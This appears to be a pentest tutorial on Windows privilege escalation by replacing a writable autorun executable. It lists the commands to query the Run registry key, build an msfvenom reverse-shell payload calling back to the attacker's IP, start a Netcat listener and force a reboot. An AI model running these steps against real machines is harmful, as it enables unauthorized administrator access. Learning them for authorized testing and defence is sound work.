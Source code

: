 Windows allows users to set specific programs to automatically start whenever the system boots, the list of programs that have this functionality enabled is stored in the Windows Registry. Although this feature can be very handy if startup programs are setup with improper permissions it may allow attackers to escalate privileges.



Exploit
-

**Identifying Autorun Programs**

1. The Autorun programs are usually stored in the Run or RunOnce registry keys:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
![Screenshot from 2024-09-30 03-47-29](https://github.com/user-attachments/assets/2d152fee-7505-40b8-8e4c-0b5763eea8e4)

2. Now, we shouls check if our user have write access to the `.exe` file from output above 

![Screenshot from 2024-09-30 03-48-44](https://github.com/user-attachments/assets/07bc848d-e3de-45d5-ad3d-09999334ae51)

3. Replace the ```program.exe``` executable with a reverse shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<our ip> LPORT=1234 -f exe > shell.exe
```

4. Then transferring the `shell.exe` file to the Windows victim machine using the Python web server.

5. At this point, for the reverse shell to be executed the administrator user would have to login, or alternatively the system can be rebooted. Running the following command to find out whether the current user has permissions to do so:
```
whoami /priv
```
![Screenshot from 2024-09-30 03-53-52](https://github.com/user-attachments/assets/ba8371e6-03a0-4479-b676-24830bdd0b93)

From the output of the command it looks like it does. 

6.The next step is to set up a Netcat listener:
```
nc -nlvp 1234
```
7. All we need now is to reboot the target machine and get the granted shell.
```
shutdown /r /t 0
```

Once the administrator user has logged on, the malicious executable was executed, therefore granting a reverse shell as that user.






